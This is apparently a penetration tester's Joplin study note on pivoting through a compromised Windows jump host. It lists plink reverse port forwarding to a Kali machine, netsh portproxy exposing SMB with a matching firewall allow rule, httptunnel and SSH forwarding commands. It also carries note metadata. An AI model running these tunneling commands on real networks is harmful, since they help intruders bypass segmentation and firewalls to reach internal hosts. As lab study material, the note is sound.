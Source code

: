 PLINK & Others

Like Putty, use for remote port forwarding on Windows machine

Run on the target JMPHOST Windows machine; to

> cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R $KALIIP0:$KALIPORT:127.0.0.1:3306 $KALIIP

Netsh (Installed by default in every Windows system)

Can be used only if "IP Helper" service is running and IPv6 is enabled on the machine

> netsh interface portproxy add v4tov4 listenport=4455 listenaddress=192.168.190.10 connectport=445 connectaddress=172.16.190.5

Verify it is on

> netstat -anp TCP | find "4455"

To enable the firewall to allow traffic:

> netsh advfirewall firewall add rule name="forward\_port\_rule" protocol=TCP dir=in localip=192.168.190.10 localport=4455 action=allow

<ins>Httptunnel - tunnels a data stream in http requests</ins>

Linux Kali:

> htc --forward-port 8080 JUMPHOSTIP:1234

HTTP jumphost:

> hts --forward-port localhost:8888 1234

HTTP jumphost:

> ssh -L 0.0.0.0:8888:TARGETIP:TARGETPORT user@127.0.0.1

Gateway finder -- find router to the internet

https://github.com/pentestmonkey/gateway-finder

id: 031a8c2867cc4bc78a01f92e5b076d83
parent_id: fa5212f3e7624b48b87153f3e4182dd1
created_time: 2022-01-16T14:11:07.935Z
updated_time: 2022-01-16T14:13:17.044Z
is_conflict: 0
latitude: 1.36730000
longitude: 103.80140000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 821170205906
user_created_time: 2022-01-16T14:11:07.935Z
user_updated_time: 2022-01-16T14:13:17.044Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1